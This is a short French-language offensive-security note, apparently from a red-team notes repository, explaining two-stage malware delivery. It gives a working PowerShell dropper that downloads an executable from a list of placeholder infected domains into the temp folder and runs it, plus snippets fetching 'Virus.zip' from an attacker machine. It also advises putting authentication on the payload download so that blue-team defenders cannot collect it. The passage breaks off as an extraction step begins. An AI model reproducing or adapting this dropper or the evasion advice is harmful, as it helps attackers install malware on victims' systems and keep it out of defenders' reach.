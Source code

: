 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

## __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple 1

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

### Exemple 2

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip
